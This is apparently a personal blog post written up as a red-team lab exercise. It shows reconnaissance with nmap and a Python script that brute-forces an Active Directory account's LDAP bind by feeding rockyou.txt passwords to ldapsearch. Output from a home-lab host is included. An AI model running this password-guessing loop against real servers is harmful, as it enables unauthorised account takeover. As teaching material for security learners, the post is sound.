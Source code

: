 ```yaml
---
title: Brute Forcing Active Directory LDAP using a Custom Python Script
date: 2025-01-26
draft: false
author: Alex Jenkins
---
```



# Red Team
## Assumptions
1. The username is already known
2. The domain is already known

## Introduction
- tools used (nmap, ldapsearch)
- what is LDAP bind (related to ldapsearch)
- developing a python script

## Reconnaissance
First we need to ensure Lightweight Directory Access Protocol (LDAP) is running. We can do that with a basic nmap scan, performing a full three-way TCP handshake.

```
nmap -sT {host_ip}
```

That command should give you a full list of the running services on the server. Check through the output, you should see LDAP running on port 389. These are my active services with open ports:

```
┌──(alex㉿kali)-[~]
└─$ nmap -sT 192.168.1.138
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-26 12:53 GMT
Nmap scan report for 192.168.1.138
Host is up (0.00034s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
MAC Address: BC:24:11:1E:A3:AE (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 4.36 seconds
```

## Brute Forcing

Python script
```python
import subprocess

password_list = '/usr/share/wordlists/rockyou.txt'
username = 'scarab'
server = '192.168.1.138'

command = ['ldapsearch', 
           '-H', f'ldap://{server}',
           '-D', f'{username}',
           '-b', 'DC=backyard,DC=local',
           ]

with open(password_list) as wordlist:
    
    for password in wordlist:
    
        password = password.strip() # remove whitespace and newlines
        print(f'Trying {password}', end='\r')
        
        command += ['-w', password]
        output = subprocess.run(command, stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
        
        if output.returncode == 0: # LDAP auth success
            print(f'Matched {password}')
            break
```

Essentially all this python script does is use subprocess to run the ldapsearch tool repeatedly until it finds a password match. It's not super intelligent, if it doesn't find a match it won't tell you - we could modify it to do that but for this exercise this is fine. The script checks for the error code 0, which indicates a successful authentication and prints the matched password. The output is suppressed, but can be added back in by modifying the subprocess.run() function if required.

Now for the command. This is the command that's being run (with all the variables replaced with real values):

``` bash
ldapsearch -H "ldap://192.168.1.138" -D "scarab" -b "DC=backyard,DC=local" -w "abc123"
```

ldapsearch is used to query an LDAP server for directory information. In this case it's being used to validate credentials because any failed logins will return the following error message:

```
ldap_bind: Invalid credentials (49)
```

The command does the following:

| Flag | Description                                                                                                                                            |
| ---- | ------------------------------------------------------------------------------------------------------------------------------------------------------ |
| -H   | Used to specify the LDAP server to connect with. This must be prefixed with *ldap://*, then followed with an IP address or domain name.                |
| -D   | The Distinguished Name (DN) of the user i.e. the username.                                                                                             |
| -w   | The password used to authenticate. Populated using a word-list in the for loop.                                                                        |
| -b   | The **base** Domain Name (DN) from which to begin the search. In this case I've chosen the root domain. Omitting this will result in "no such object". |

And that's it. The weak password policy and lack of lockout mechanisms made this a trivial exercise, allowing limitless attempts to authenticate into the user despite an array of failed logins.

I hope you enjoyed this example of password guessing using LDAP in Active Directory. The purpose of this was to be an introductory exercise using readily available services upon setup of an AD server. This is a trivial example of password guessing, but I feel it has effectively showcased this MITRE technique.

This was new to me and I had fun building the python script and learning a little bit about LDAP and how the ldapsearch tool works. 